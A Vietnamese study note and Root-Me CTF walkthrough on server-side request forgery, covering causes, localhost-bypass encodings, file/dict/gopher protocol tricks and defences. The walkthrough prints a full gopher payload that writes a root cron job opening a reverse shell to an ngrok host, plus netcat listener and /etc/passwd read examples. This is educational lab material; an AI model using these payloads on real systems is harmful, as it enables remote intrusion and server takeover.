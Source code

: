 ```
+ Tìm hiểu về SSRF(Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Giải các bài ssrf trên rootme.
```
# SSRF (Server Side Request Forgery)
## Khái niệm
SSRF là cuộc tấn công yêu cầu giả từ máy chủ cho phép kẻ tấn công thay đổi tham số yêu cầu từ đó có thể kiểm soát được yêu cầu của máy chủ, khi đó kẻ tấn công sẽ khiến máy chủ gửi yêu cầu đến 1 máy chủ khác hoặc chính nó nhằm mục đích xấu.
## Nguyên nhân
- Thiếu kiểm soát đầu vào: Khi máy chủ lấy tài nguyên từ tham số được kiểm soát người dùng mà không có kiểm tra hay xác thực thì kẻ tấn công có thể sử dụng nó để thực hiện yêu cầu.
- Sử dụng máy chủ sử dụng được các protocol không cần thiết (gopher://, dict://,...) và mở 1 số port có thể khai thác(redis, SMB,..)
- Sử dụng IP nội bộ: Khi ứng dụng web cho phép sử dụng IP nội bộ, kẻ tấn công từ đó có thể yêu cầu truy cập mà không cần xác thực
## Tác hại + 1 số cách bypass
### Tác hại
- Kẻ tấn công có thể truy cập vào các dữ liệu nhạy cảm trên máy chủ cũng như trên cục bộ, từ đó ăn cắp thông tin quan trọng của người dùng,...
- Vượt qua các lớp bảo mật, truy cập vào mạng cục bộ từ đó dẫn đến các cuộc tấn công khác nghiêm trọng hơn như RCE,...

### 1 số cách bypass
- Trong cuộc tấn công vào chính máy chủ:
  - Sử dụng IP thay thế `127.0.0.1`, `localhost` như: `2130706433` (dạng số nguyên), `127.0.1`, `127.1`, `017700000001`(dạng octal),...
  - Obfuscating các chuỗi bị filter như URL enconde,...
- Open redirection: Khi ứng dụng web redirect, quan soát các tham số trên URL từ đó có thể kiểm soát được.
- URL parsing: 
  - Sử dụng `@` để đưa phần phía trước thành credential 
  - Sử dụng `#` (fragment) để tạo ra tham số mới mà từ đó máy chủ đọc được và truy cập được nó.

- Encode, double encode,...
- Sử dụng các protocols:
  - `file://`: `file:///etc/passwd`
  - `dict://`:`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>` => `ssrf.php?url=dict://attacker:11111/`
  - `gopher://`: `gopher://<server>:8080/_GET / HTTP/1.0%0A%0A`
  - ...
- Sử dụng tools:
  - <a href="https://github.com/swisskyrepo/SSRFmap" >SSRFMap</a> (phát hiện và khai thác SSRF)
  - <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a> (tạo payload khai thác MySQL, Redis,...)
 
Tham khảo: <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" >Hacktricks</a>
## Phòng chống
- Kiểm tra xác thực đầu vào: kiểm tra giới hạn phạm vi tham số được đưa vào URL ví dụ như giới hạn các địa chỉ IP có thể yêu cầu đến máy chủ...
- Sử dụng whitelist: chỉ định các URL hay các protocols, wrapper hợp lệ mà ứng dụng có thể kiểm soát được.
- Giới hạn truy cập máy chủ cục bộ, sử dụng cấu hình máy chủ hợp lý.
- Sử dụng tường lửa, thư viện bảo mật và thường xuyên cập nhật chúng.

# Root-me
## Server Side Request Forgery
Link: https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery

![image](https://user-images.githubusercontent.com/92881216/229118568-98447fe1-187c-47b2-8e71-deb5e1044c88.png)

Nhìn sơ qua thì web có 1 input url:

![image](https://user-images.githubusercontent.com/92881216/229118790-585c2ee8-144d-4c5f-b177-42feabf035b8.png)

Nhập thử với `https://www.google.com/` thì :

![image](https://user-images.githubusercontent.com/92881216/229119047-c4c6829d-33c3-4638-98b9-3e7b38490972.png)

Như vậy có thể web dùng curl để crawl lại web được nhập từ url. Tiếp tục thử với `file:///etc/passwd`:

![image](https://user-images.githubusercontent.com/92881216/229119398-f4062355-78d3-415b-b356-d9c87e3693ea.png)

Như vậy web có vẻ không filter gì, nhưng trong `/etc/passwd` cũng không có gì, tiếp tục thử với `http://localhost`

![image](https://user-images.githubusercontent.com/92881216/229119635-33516819-24a3-4445-9434-936e3f199173.png)

Như vậy nó có thể yêu cầu đến chính server nó. Mặt khác, SSRF có thể khai thác qua các cổng mở khác có thể dấn đến RCE, vì vậy dùng burp suite để test toàn bộ cổng với payload: `http://localhost:x` với x từ 1 -> 65535 và nhận thấy cổng `6379` bị Timeout.

Như vậy cổng 6379 được mở, đây là cổng mặc định của `redis`.<br>
> Redis 6379 là cổng mặc định mà Redis nghe các kết nối. Nó là một kho lưu trữ cấu trúc dữ liệu trong bộ nhớ phổ biến được sử dụng làm cơ sở dữ liệu, bộ đệm và trình môi giới tin nhắn. Đây là một cơ sở dữ liệu nhanh, có thể mở rộng và đáng tin cậy được sử dụng bởi nhiều trang web và ứng dụng phổ biến.

Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...

Sau 1 hồi tìm hiểu thì đây là cách khai thác:
- Đầu tiên dùng `ngrok` với command `ngrok tcp 1235` để tạo ra 1 tunel từ máy đến internet qua cổng 1235 (Đây là cổng để netcat nghe reverse shell) : 

![image](https://user-images.githubusercontent.com/92881216/229121608-cecd01ed-8214-4641-be29-06aa60d12811.png)

- Tiếp theo, dùng `Gopherus` tạo payload reverse shell với ip vừa tạo từ `ngrok`:

![image](https://user-images.githubusercontent.com/92881216/229122051-08bdffd2-3422-4427-9d5e-b52b474ca55c.png)

Tuy nhiên mặc định tool tạo ra có cổng 1234 nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: 16632)

Payload khi đó là:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/16632%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
- Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...

Mặc dù thử rất nhiều lần nhưng em vẫn bị lỗi :

![image](https://user-images.githubusercontent.com/92881216/229124019-26a57794-41a9-4685-8a5b-53ed77b445fe.png)

Và bên nc vẫn ko có hiện tượng gì :(((((


